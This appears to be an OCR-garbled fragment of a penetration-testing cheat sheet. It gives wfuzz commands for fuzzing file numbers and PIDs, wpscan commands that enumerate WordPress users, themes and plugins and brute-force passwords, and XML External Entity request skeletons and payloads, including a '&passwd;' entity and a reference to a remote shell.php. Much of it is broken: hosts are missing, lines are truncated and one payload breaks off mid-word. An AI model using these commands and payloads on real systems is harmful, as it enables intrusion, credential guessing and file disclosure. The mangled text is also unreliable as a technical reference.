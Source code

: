 Numbering Files

wfuzz -w /usr/share/wordlists/seclists/Fuzzing/4-digits-0000-9999.txt --hw 31 https

Enumerating PIDs

wfuzz -u '<https://tinyurl.com/2x2jhx7j> -z range,900-1000

WPScan

wpscan --url https\:// --enumerate u,t,p wpscan --url https\:// --plugins-detection aggressive wpscan --url https\:// --disable-tls-checks wpscan --url https\:// --disable-tls-checks --enumerate u,t,p wpscan --url http\:// -U -P passwords.txt -t 50

XML External Entity (XXE)

Skeleton Payload Request

GET / HTTP/1.1 Host: : User-Agent: Mozilla/5.0 (X11; Linux x86\_64; rv:68.0) Gecko/20100101 Firefox/68.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 Accept-Language: en-US,en;q=0.5 Accept-Encoding: gzip, deflate Content-Length: 136

:80/shell.php" >]>

\&xxe;

Payloads

\&passwd;1

username=%26username%3b\&version=1.0.0-->\<!DOCTYPE+username+\[+\<!ENTITY+username+SYST
